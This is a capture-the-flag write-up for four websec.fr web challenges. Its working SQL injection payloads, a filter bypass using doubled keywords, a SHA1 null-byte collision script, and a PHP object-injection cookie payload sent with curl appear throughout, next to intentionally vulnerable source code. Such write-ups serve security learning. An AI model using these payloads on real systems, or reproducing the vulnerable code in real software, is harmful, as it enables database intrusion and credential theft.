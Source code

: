 # websec.fr writeups

## Level 01

```php
class LevelOne {
    public function doQuery($injection) {
        $pdo = new SQLite3('database.db', SQLITE3_OPEN_READONLY);

        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
        $getUsers = $pdo->query($query);
        $users = $getUsers->fetchArray(SQLITE3_ASSOC);

        if ($users) {
            return $users;
        }

        return false;
    }
}
```

The level one is straightforward, the source code is given so we just have to use `union select`

```sql
SELECT id,username FROM users WHERE id=1 OR 1=2 union select username,password from users where id = 1 LIMIT 1
```

so the payload is: `1 AND 1=2 union select username,password from users where id = 1`

Explanation:

1. we have to bypass first select by making it false, using `AND {false_statement}` so `1=2` == `false`

2. after making the first term `false` we now can use union select with password as my guest column

## Level 02

```php
class LevelTwo {
    public function doQuery($injection) {
        $pdo = new SQLite3('leveltwo.db', SQLITE3_OPEN_READONLY);

        $searchWords = implode (['union', 'order', 'select', 'from', 'group', 'by'], '|');
        $injection = preg_replace ('/' . $searchWords . '/i', '', $injection);

        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
        $getUsers = $pdo->query ($query);
        $users = $getUsers->fetchArray (SQLITE3_ASSOC);

        if ($users) {
            return $users;
        }

        return false;
    }
}
```

the query is just the same as the first level, but with limitation, the query is filtered using `preg_replace`

I’m using php interactive shell to try preg*match, it turns out it does not filter it \_recursively*

```shell
❯ ./psysh
Psy Shell v0.10.4 (PHP 7.3.11 — cli) by Justin Hileman
>>> $searchWords = implode (['union', 'order', 'select', 'from', 'group', 'by'], '|');
=> "union|order|select|from|group|by"
>>> $injection = preg_replace ('/' . $searchWords . '/i', '', "from");
=> ""
>>> $injection = preg_replace ('/' . $searchWords . '/i', '', "frfromom");
=> "from"
```

so we can bypass the query just by modifying forbidden word

final query: `1 and 1=2 UNunionION SELselectECT username,password FRfromOM users where id =1 --`

## Level 03

When doing this challenge, I notice after copying the source code to my text editor, is the `sha1` function is written with argument `fa1se` not `false`. It makes the `sha1`'s parameter raw_output equals to `true`, so the output is raw binary.

So what? we notic that we can truncate the byte with null terminator `\0`. Fortunately, the hash of the password in the challenge contains null byte too:(`7c00249d409a91ab84e3f421c193520d9fb3674b`)

So we can make a hash collision by finding a hash that starts with: `0x7c 0x00`

I wrote a script,

```python
import hashlib
import base64
import codecs
import requests
import re

the_answer = ""

i = 0
while True:
    v = "%x" % i
    v = "0" + v if len(v) % 2 == 1 else v
    v = base64.b64encode(codecs.decode(v, "hex"))
    h = hashlib.sha1(v).digest()[:2]
    if h == b"\x7c\x00":
        the_answer = str(v).replace("b", "").replace("\'", "")
        break
    i += 1


r = requests.post('http://websec.fr/level03/index.php', data={'c': the_answer })
flag = re.search(r'(.*?WEBSEC.*?)\n', r.text)
print(flag.group(0))
```

## Level 04

given this source code, lets analyze the codes:

```php
// source1.php
<?php
include 'connect.php';

$sql = new SQL();
$sql->connect();
$sql->query = 'SELECT username FROM users WHERE id=';


if (isset ($_COOKIE['leet_hax0r'])) {
    $sess_data = unserialize (base64_decode ($_COOKIE['leet_hax0r']));
    try {
        if (is_array($sess_data) && $sess_data['ip'] != $_SERVER['REMOTE_ADDR']) {
            die('CANT HACK US!!!');
        }
    } catch(Exception $e) {
        echo $e;
    }
} else {
    $cookie = base64_encode (serialize (array ( 'ip' => $_SERVER['REMOTE_ADDR']))) ;
    setcookie ('leet_hax0r', $cookie, time () + (86400 * 30));
}

if (isset ($_REQUEST['id']) && is_numeric ($_REQUEST['id'])) {
    try {
        $sql->query .= $_REQUEST['id'];
    } catch(Exception $e) {
        echo ' Invalid query';
    }
}
```

1. There is unserialize method without input validation, we can assume we can use PHP object injection attack
2. We can abuse the unserialize method by crafting our payload on cookies

```php
//source2.php

<?php

class SQL {
    public $query = '';
    public $conn;
    public function __construct() {
    }

    public function connect() {
        $this->conn = new SQLite3 ("database.db", SQLITE3_OPEN_READONLY);
    }

    public function SQL_query($query) {
        $this->query = $query;
    }

    public function execute() {
        return $this->conn->query ($this->query);
    }

    public function __destruct() {
        if (!isset ($this->conn)) {
            $this->connect ();
        }

        $ret = $this->execute ();
        if (false !== $ret) {
            while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
            }
        }
    }
}
```

1. We can see from the source2, the codes implemented magic function `__descruct()`, this magic function will be called automatically without invocation.
2. furthermore, from `__destruct()` method, it will query to database and show `$row[username]` field, so actually we have to craft `UNION` query but it's easier to use `AS` keyword to change from username field to password field

We can craft the payload using this php script:

```php
// payload.php

<?php

class SQL
{
    public $query = 'SELECT password AS username FROM users WHERE id=1';
    public $conn;
}

$serialized = serialize(new SQL());
echo base64_encode($serialized);
```

output generated: `TzozOiJTUUwiOjI6e3M6NToicXVlcnkiO3M6NDk6IlNFTEVDVCBwYXNzd29yZCBBUyB1c2VybmFtZSBGUk9NIHVzZXJzIFdIRVJFIGlkPTEiO3M6NDoiY29ubiI7Tjt9`

try this using curl, or using browser and set your cookie

```shell
❯ curl -b 'leet_hax0r=TzozOiJTUUwiOjI6e3M6NToicXVlcnkiO3M6NDk6IlNFTEVDVCBwYXNzd29yZCBBUyB1c2VybmFtZSBGUk9NIHVzZXJzIFdIRVJFIGlkPTEiO3M6NDoiY29ubiI7Tjt9' http://websec.fr/level04/index.php
```

further reads:

- https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection

- https://www.notsosecure.com/remote-code-execution-via-php-unserialize/
